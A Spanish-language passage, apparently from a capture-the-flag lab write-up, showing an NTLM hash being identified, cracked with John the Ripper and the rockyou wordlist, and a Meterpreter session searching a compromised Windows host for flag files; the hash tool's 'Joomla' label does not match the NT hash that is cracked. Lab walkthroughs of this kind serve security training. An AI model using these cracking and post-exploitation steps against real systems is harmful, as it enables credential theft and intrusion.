 Una vez que tengamos el hash, tendremos que identificar de que tipo es, para ello usaremos la herramienta ‘hash-identifier’

```bash
┌──(root㉿kali)-[/home/kali]
└─# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d

Possible Hashs:
[+] md5($pass.$salt) - Joomla
```

```bash
┌──(root㉿kali)-[/home/kali]
└─# cat hash.txt 
aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d
```

### JOHN THE RIPPER

Para descifrar el hash usaremos johntheripper con la wordlist de rockyou.

```bash
┌──(root㉿kali)-[/home/kali]
└─# john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt /home/kali/hash.txt
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
************         (aad3b435b51404eeaad3b435b51404ee)     
1g 0:00:00:00 DONE (2023-01-26 06:39) 2.040g/s 20807Kp/s 20807Kc/s 20807KC/s alqueline..alpura10
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

## Búsqueda de la Flags desde Meterpreter

La forma mas fácil para encontrar las ubicaciones de las flags y la siguiente

```bash
meterpreter > search -f flag*
Found 6 results...
==================

Path                                                             Size (bytes)  Modified (UTC)
----                                                             ------------  --------------
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk  482           2019-03-17 15:26:42 -0400
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk  848           2019-03-17 15:30:04 -0400
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk  2344          2019-03-17 15:32:52 -0400
**c:\Users\Jon\Documents\flag3.txt**                                 37            2019-03-17 15:26:36 -0400
```